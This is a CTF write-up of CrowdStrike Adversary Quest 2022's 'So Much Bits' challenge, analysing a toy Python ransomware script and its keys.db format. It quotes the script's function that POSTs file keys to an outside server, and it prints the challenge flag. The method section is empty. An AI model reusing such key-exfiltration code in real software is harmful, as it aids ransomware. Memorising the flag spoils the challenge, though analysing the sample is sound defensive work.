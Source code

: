 # Crowdstrike Adversary Quest 2022 / Catapult Spider / #3 So Much Bits

## Challenge Description

Unfortunately, after infection, the ransomware managed to encrypt all the customer's important files. Thanks to your help, we were able to determine the infection path and delete the control panel as well as the running ransomware. This also enabled us to gain access to the files on the disk of an infected Linux host. You can find the restored files attached. They are still encrypted, though, but at least the ransomware left some files. Please figure out whether there is a chance to decrypt the files without paying the ransom.

## Challenge Files

```console
$ ls -laR       
.:
total 5
drwxr-xr-x 1 501 dialout  192 Jul 31 10:48 .
drwxr-xr-x 1 501 dialout  288 Jul 31 10:44 ..
-rw-r--r-- 1 501 dialout  191 Jul 18 19:37 keys.db
drwxr-xr-x 1 501 dialout  128 Jul 31 10:48 notes
-rw-r--r-- 1 501 dialout  785 Jul 18 19:37 such_note_much_ransom.txt
-rwxr-xr-x 1 501 dialout 1084 Jul 31 10:46 victim_script.py

./notes:
total 2
drwxr-xr-x 1 501 dialout 128 Jul 31 10:48 .
drwxr-xr-x 1 501 dialout 192 Jul 31 10:48 ..
-rw-r--r-- 1 501 dialout 100 Jul 18 19:37 grocery.txt.enc
-rw-r--r-- 1 501 dialout 165 Jul 18 19:37 todo.txt.enc
```

### File *such_note_much_ransom.txt*

A ransomnote written in doge speech.

- Contact mail address is `AllYourDogeAreBelongToDoge@protonmail.com`.
- Dogecoin wallet `DJR6L7PeDcen9GFzoJnPioRd1tV3wt9X3p`.

### File *keys.db*

Seems to be binary, structure yet unknown.

```console
$ xxd keys.db                                                                  
00000000: 2c00 0000 746f 646f 2e74 7874 2e65 6e63  ,...todo.txt.enc
00000010: e752 8b60 7533 30a0 ba74 e24e 4d2c ef86  .R.`u30..t.NM,..
00000020: 8f5a 7601 1d5b 5bd5 f7dd c6f2 5fdb 1b42  .Zv..[[....._..B
00000030: 0000 0000 2200 0000 2f68 6f6d 652f 6368  ....".../home/ch
00000040: 616c 6c65 6e67 652f 6e6f 7465 732f 746f  allenge/notes/to
00000050: 646f 2e74 7874 2e65 6e63 0000 0000 2c00  do.txt.enc....,.
00000060: 0000 6365 7279 2e74 7874 2e65 6e63 b02f  ..cery.txt.enc./
00000070: d231 39e8 386d 2dd9 78dd a744 226c 46a9  .19.8m-.x..D"lF.
00000080: 97c6 4fa0 a269 fe23 d38d 9bb4 e602 0000  ..O..i.#........
00000090: 0000 2500 0000 2f68 6f6d 652f 6368 616c  ..%.../home/chal
000000a0: 6c65 6e67 652f 6e6f 7465 732f 6772 6f63  lenge/notes/groc
000000b0: 6572 792e 7478 742e 656e 6300 0000 00    ery.txt.enc....
```

### File *notes/grocery.txt.enc*

Likely one of the restored encrypted files.

```console
$ xxd grocery.txt.enc 
00000000: cc2d a24c fa37 2d8b 2006 27f5 c46a 7f6c  .-.L.7-. .'..j.l
00000010: b6bb edc9 4082 7ff3 6120 6478 03dd f66b  ....@...a dx...k
[...]
```

### File *notes/todo.txt.enc*

And another restored but still encrypted file.

```console
$ xxd todo.txt.enc   
00000000: cc2d a24c fa37 2d8b 2006 27f5 4700 d5eb  .-.L.7-. .'.G...
00000010: d878 4fc6 fbd9 5eae 4fd3 e0c6 117d 3092  .xO...^.O....}0.
[...]
```

What directly gets our attention is that the first 12 bytes (`cc2d a24c fa37 2d8b 2006 27f5`) are the same in both encrypted files.

Could be a re-use of crypto material, but that's still speculation here.

### File *victim_script.py*

This is likely the script that was used to encrypt the above files.

## Analysis of the Encryption Script

Let's start with taking a look at function `main()`.

### Function *main()*

```python
[...]
from encrypter import *
[...]
def main():
    paths = generate_path_list()
    # Encrypt data with military-grade AES-GCM
    encrypted_data = encrypt_files(paths)
    # Delete encryption module to anger security researchers
    os.remove("encrypter.py")
    write_files(encrypted_data)
    key_db = get_encrypted_key_db(encrypted_data)
    write_key_db(key_db)
```

We don't know the functionality that is imported from the (actor) module `encrypter`, as it was deleted (*angry face*). Since there are no other references we can recognize, we assume that the functions `generate_path_list()`, `encrypted_files()` and `write_files()` were imported from `encrypter`.

- `generate_path_list()` sounds like it may return a list of file path strings to encrypt.
- `encrypt_files()` is - according to the comment - applying *military-grade* AES-GCM to encrypt the data.
  - Whatever data structure is returned from it, it is assigned to `encrypted_data` which is used as an argument for function `write_files()`.
- `write_files()` will likely write the encrypted data to disk.

Afterwards two functions are called that are defined in the supplied script: `get_encrypted_key_db()` and `write_key_db()`.

### Function *write_key_db()*

No magic here. This is the culprit to generate file `keys.db`.

```python
def write_key_db(data):
    with open("keys.db", "wb") as h:
        h.write(data)
```

### Function *get_encrypted_key_db()*

Let's inspect the code here.

```python
def get_encrypted_key_db(data):
    encoded_data = bytearray()
    for _, key, path in data:
        encoded_data += len(key).to_bytes(4, byteorder='little')
        encoded_data += key
        encoded_data += b"\x00\x00\x00\x00"
        encoded_data += len(path).to_bytes(4, byteorder='little')
        encoded_data += f"{path}".encode()
        encoded_data += b"\x00\x00\x00\x00"
    res = requests.post("http://116.202.161.100:57689/encrypt_db", data=b64encode(encoded_data))
    return b64decode(res.text)
```

This is actually the only function/code part that we can seriously work on. This is the generator function for the contents of file `keys.db`. Maybe we can spot a weakness in the logic in order to retrieve (parts of) the crypto material needed for decryption.

The function iterates over list entries of the variable `data`, which is the function's first and only argument. `main()` passed `encrypted_data` to it.

Each list entry (of `encrypted_data`) seems to be composed of three parts: `_, key, path`.

For each list entry, a data structure is appended to `encoded_data`.

| Offset | Length | Value | Comment |
| --- | --- | --- | --- |
| 0 | 4 | unknown | Length of *key*, Byte order: Little endian |
| 4 | unknown | unknown | Key length could be 16, 24 or 32 Byte |
| unknown | 4 | "\x00" * 4 | Some sort of padding |
| unknown | 4 | unknown | Length of file path, Little endian |
| unknown | unknown | unknown | File path string |
| unknown | 4 | "\x00" * 4 | Some sort of padding |

Then an HTTP POST request is made to `http://116.202.161.100:57689/encrypt_db` with the base64 encoded value of `encoded_data`.

The result is base64 decoded, return to `main()` and then written to our `keys.db`.

## Approach





## Now it's Flag Time!

Flag: **CS{d0g3_s0_n1c3_such_4m4z3}**
